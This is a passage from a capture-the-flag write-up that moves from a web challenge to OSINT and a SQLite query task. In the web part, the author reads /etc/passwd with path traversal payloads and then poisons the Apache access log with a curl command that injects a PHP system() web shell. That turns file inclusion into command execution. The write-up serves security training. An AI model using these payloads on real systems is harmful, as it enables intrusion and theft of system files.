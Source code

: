 Start to bypassing it using path traversal bypassing technique.. 
payload `?file=..././..././..././..././..././..././..././..././etc/passwd`

and i was able to read passwd file ... but what to do after that? i didn't know file name or even path... 
so i started to search about getting RCE from LFI. and as usual `PayloadsAllTings` helps much.. 
found that i can use ``/var/log/apache2/access.log`` as a portal for my connection.

so from a terminal i used this payload 
`curl-A "<?php system(\$_GET['cmd']);?>" http://64.225.23.248/` 
this will change my User-agent as php  code... then when i'm reading /access.log file will exec this Parameter else.. 

and from my Browser used this payload
`..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././var/log/apache2/access.log&cmd=id`
and it works fine
![Pasted image 20211128134238](https://user-images.githubusercontent.com/77472776/143768892-c2212653-9d75-4500-a1b5-e323d8272a66.png)

so used `ls ` on the / dir to check flag file name and found it `getyourfl4g`

Flag: `SBCTF{You_Pois0ned_Me}`

-----------------------------------------------------------------
### Now Let's go for some OSINT & MISC 
* solved 3 out of 6
#### 1) Discord  [Easy]  [OSINT]
Disc: 
"Find the account creation date of one of our discord channel admins (4dam). Note: Please put the date in this format YYYY/MM/DD for submission, like this: SBCTF{1970/01/01} "


it was an easy one if you now more about Discord.

i went to Discord and got the ID for admin (4dam)
then went to site [Discord LookUP](https://discord.id/) 

and found Info about him  what is important is 
`Created: Tue, 09 Feb 2021 13:05:05 UTC`

Flag: `SBCTF{2021/02/09}` 

#### 2) Query the Flag  [Easy]  [Misc] 
Disc: Query the flag 

after downloading the file i found it was `find.db` then woow it's very easy. 
went to  `sqlite3` 
command -> `sqlite3 find.db .dump | grep -i "SBCTF"` 
what i got was Insert line for flag 
`INSERT INTO falg256 VALUES('SBCTF{I_w@s_s0_sl33py_D3s1gn1ng_7h1s}','NULL');`

Flag: `SBCTF{I_w@s_s0_sl33py_D3s1gn1ng_7h1s}`

#### 3) Http flag [Medium]  [MISC] 
NO Disc.
